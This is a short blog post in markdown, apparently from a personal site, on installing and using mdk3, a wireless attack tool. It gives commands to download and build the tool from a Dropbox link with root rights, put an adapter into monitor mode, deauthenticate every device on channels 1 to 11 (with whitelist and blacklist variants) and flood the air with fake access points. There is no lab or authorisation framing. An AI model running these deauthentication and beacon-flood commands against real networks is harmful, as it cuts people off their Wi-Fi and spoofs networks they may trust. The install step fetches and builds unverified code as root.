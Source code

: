 ```yaml
---
layout: post
title: Installation and Basic Usage of MDK3
excerpt: A how-to for the installation and basic usage of mdk3.
---
```

###Installation

Use the following commands

```bash
sudo apt-get install iw
wget https://dl.dropboxusercontent.com/u/23279035/mdk3-v6.tar.bz2
tar -xjf mdk3-v6.tar.bz2
mv mdk3-v6 mdk3
cd mdk3
sudo make && sudo make install
```

###Usage

####Set Wifi Adaptor into Monitor Mode

Use the following commands

	sudo iw phy phy0 interface add mon0 type monitor
	sudo iw dev wlan0 del

####Deauthentication

Deauth all devices on every channel

	sudo mdk3 mon0 d -c 1,2,3,4,5,6,7,8,9,10,11

Deauth via whitelist (deauth all devices excluding those on the list)

	sudo mdk3 mon0 d -w /home/username/whitelist.txt -c 1,2,3,4,5,6,7,8,9,10,11

Deauth via blacklist (deauth only devices on the list)

	sudo mdk3 mon0 d -b /home/username/blacklist.txt -c 1,2,3,4,5,6,7,8,9,10,11

###Beacon Flood Mode

Broadcast a random list of fake access points

	sudo mdk3 mon0 b

Broadcast a certain access point by name

	sudo mdk3 mon0 b -n example_network

Broadcast a list of access points from a file

	sudo mdk3 mon0 b -f /home/user/example_network_names.txt

For more information use `sudo mdk3 --fullhelp`

###Set Wifi Card Back to Managed Mode

Use the following commands

	sudo iw phy phy0 interface add wlan0 type managed
	sudo sudo iw dev mon0 del

